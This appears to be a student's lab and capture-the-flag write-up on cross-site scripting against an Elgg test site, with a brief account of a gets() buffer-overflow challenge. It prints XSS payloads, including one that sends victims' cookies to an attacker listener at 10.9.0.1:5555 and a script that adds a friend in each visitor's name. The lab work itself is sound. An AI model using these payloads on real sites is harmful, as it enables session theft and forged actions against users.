 # Week \#10 Tasks and Week \#10 CTF

## Week \#10 Tasks:

- **Task 1**: When we embedded the JavaScript code `<script>alert('XSS');</script>` in the brief description field of a certain profile, any user who views that profile will see the `XSS` alert window:

    ![task1](docs/week10/tasks/task1.png)

- **Task 2**: When we embedded the JavaScript code `<script>alert(document.cookie);</script>` in the brief description field of a certain profile, any user who views that profile will see an alert with the user cookies:

    ![task2](docs/week10/tasks/task2.png)

- **Task 3**: Similarly to task 2, but us, attackers, want to see the cookies in our "side". For that, we used the following script to send the user cookies to the port 5555 of the attacker's maachine: `<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>`. Previously, we run `nc -lknv 5555` so that we can print out whatever is sent by the client to the port 5555.

    ![task3](docs/week10/tasks/task3.png)

- **Task 4**: In this task we had to make a non self-propagate XSS worm that adds Samy as a friend to any other user that visits Samy's page. For that, we used the provided skeleton JavaScript code (on Editor mode) and adapted it with our needs:

```javascript
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // 1
    var token="&__elgg_token="+elgg.security.token.__elgg_token; // 2

    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=57" + ts + token + ts + token;

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

1. Explain the purpose of Lines 1 and 2, why are they needed?
   - Answer: the lines 1 and 2 are needed to retrieve the `__elgg_ts` and `__elgg_token` fields from the elgg cookie, which are needed in order to build the `sendurl` used to send a friend request to Samy. Since these tokens are different for every web user, we could never write them hardcoded. By retrieving them from the elgg cookie, the script works for any user.

2. If the `Elgg` application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
   - Answer: The Editor mode adds additional HTML code to the text typed into the field, while the Text mode does not. Additionaly, special characters like `<` and `>` might be converted to `&lt` and `&gt`, which would prevent us to launch a successful attack.

![task4](docs/week10/tasks/task4.png)

## Week \#10 CTF:

- **Challenge 1**: After inspecting the HTML elements of the website, we made it so that after a submission is made, the "Give the flag" button is executed, thus receiving the flag after a few minutes. Basically we made our button "Mark request as read" press the button "Give the flag", using the function `submit()`. We used `return false` after just to avoid the event to actually fire.

```javascript
<script>
    document.querySelector("[role='formRead']").onsubmit = function() { 
        document.querySelector("[role='form']").submit(); return false;
    }
</script>
```

![ctf1](docs/week10/ctf/desafio1/ctf1.png)

- **Challenge 2**: This CTF is very similar with one CTF previously done. The vulnerability is present on `gets(buffer)`, where the program can get more bytes than buffer size (it reads everything on input until receives `\0`, not only 100 bytes). Therefore, we were able to create a python script that reads the address given by the server, write it to the return address and put shellcode on the beginning of it. With that, we got kernel access to the server's folder, so that we can browse through directories and files and find `flag.txt`.

![ctf2](docs/week10/ctf/desafio2/ctf2.png)